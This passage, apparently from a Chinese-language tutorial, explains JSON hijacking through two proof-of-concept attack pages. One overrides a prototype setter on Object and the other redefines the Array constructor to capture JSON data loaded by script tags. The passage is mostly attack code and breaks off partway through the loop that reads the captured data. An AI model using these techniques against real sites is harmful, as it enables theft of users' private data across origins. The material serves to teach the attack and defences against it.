 ...

&lt;body&gt;

&lt;script type="text/javascript"&gt;

Object.prototype.__defineSetter__('Id', function(obj){alert(obj);});

&lt;/script&gt;

&lt;script src="http://example.com/Home/AdminBalances"&gt;&lt;/script&gt;

&lt;/body&gt;

&lt;/html&gt;</td>
</tr>
</tbody>
</table>
</div>
<span style="color: #17365d; font-family: 仿宋; font-size: 14pt;">其中用到了Javascript的原型，如果对Javascript的原型不够熟悉，可以参考之前的文章[《【编程语言】深刻理解javascript原型（_proto_）》](http://helloword.1kapp.com/archives/1056)
</span>

<span style="color: #17365d; font-family: 仿宋; font-size: 14pt;">**数组的攻击方式
**</span>
<div>
<table style="border-collapse: collapse; background: #fabf8f;" border="0"><colgroup> <col style="width: 590px;" /></colgroup>
<tbody valign="top">
<tr>
<td style="padding-left: 7px; padding-right: 7px; border: solid 0.5pt;">&lt;script type="text/javascript"&gt;

var secrets;

&nbsp;

Array = function() {

secrets = this;

};

&lt;/script&gt;

&lt;script src="http://haacked.com/demos/secret-info.json"

type="text/javascript"&gt;&lt;/script&gt;

&nbsp;

&lt;script type="text/javascript"&gt;

var yourData = '';

var i = -1;

while(secrets[++i]) {

yourData += secrets[i] + ' ';
